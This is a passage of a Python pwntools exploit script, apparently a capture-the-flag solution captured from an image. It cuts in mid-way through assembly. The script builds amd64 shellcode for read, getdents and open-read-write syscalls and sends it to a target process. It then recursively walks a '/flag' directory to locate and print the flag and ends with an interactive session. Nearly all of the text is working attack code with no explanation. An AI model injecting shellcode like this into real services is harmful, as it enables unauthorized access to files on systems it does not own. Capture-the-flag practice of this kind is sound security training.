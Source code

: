 ```python
        syscall

        mov rdx, 0x40
        mov rsi, rsp
        mov rdi, rax
        xor rax, rax
        syscall

        mov rdi, 0x1
        mov rax, 0x1
        syscall
''', arch='amd64')

log.info(disasm(read))
log.info(disasm(getdents))
log.info(disasm(orw))

io = start()
print(io.recv())

io.send(read)
io.send(getdents)
# io.send(orw)

time.sleep(1)

# io.send(raw_input('>>> ').strip())
# io.send('/flag/rrfh/lmc5/nswv/1rdr/zkz1/pim9/flag')

recurse('/flag', io)

io.interactive()
```
